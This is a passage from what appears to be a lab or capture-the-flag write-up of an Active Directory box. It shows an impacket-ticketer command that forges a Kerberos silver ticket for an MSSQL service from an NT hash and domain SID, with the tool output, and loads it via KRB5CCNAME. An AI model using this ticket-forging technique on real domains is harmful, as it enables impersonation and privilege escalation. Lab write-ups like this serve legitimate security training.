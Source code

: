 okey our user (RASZACK) has a GenericWrite on 2 users but its already domain users member is it needed to do this if we cannot escalete privileges here?????????? let see can we create nthash and got admin shell with 1433 :?

## FIRST HOST DONE

![alt text](../assets/images/Screenshot_2024-07-04_21_07_07.png)

okey we found database admin user let see what we can do.

    ➜  kelndathu impacket-ticketer -nthash E2F156A20FA3AC2B16768F8ADD53D72C -domain-sid S-1-5-21-641890747-1618203462-755025521 -domain klendathu.vl -spn mssql/srv1.klendathu.vl deladirier 
    Impacket v0.12.0.dev1 - Copyright 2023 Fortra

    [*] Creating basic skeleton ticket and PAC Infos
    [*] Customizing ticket for klendathu.vl/deladirier
    [*]     PAC_LOGON_INFO
    [*]     PAC_CLIENT_INFO_TYPE
    [*]     EncTicketPart
    [*]     EncTGSRepPart
    [*] Signing/Encrypting final ticket
    [*]     PAC_SERVER_CHECKSUM
    [*]     PAC_PRIVSVR_CHECKSUM
    [*]     EncTicketPart
    [*]     EncTGSRepPart
    [*] Saving ticket in deladirier.ccache
    ➜  kelndathu export KRB5CCNAME=deladirier.ccache

I used impacket-ticketer for create sliver ticket and not nthash u need to give password on cyberchef flag on nthash and for doman-sid
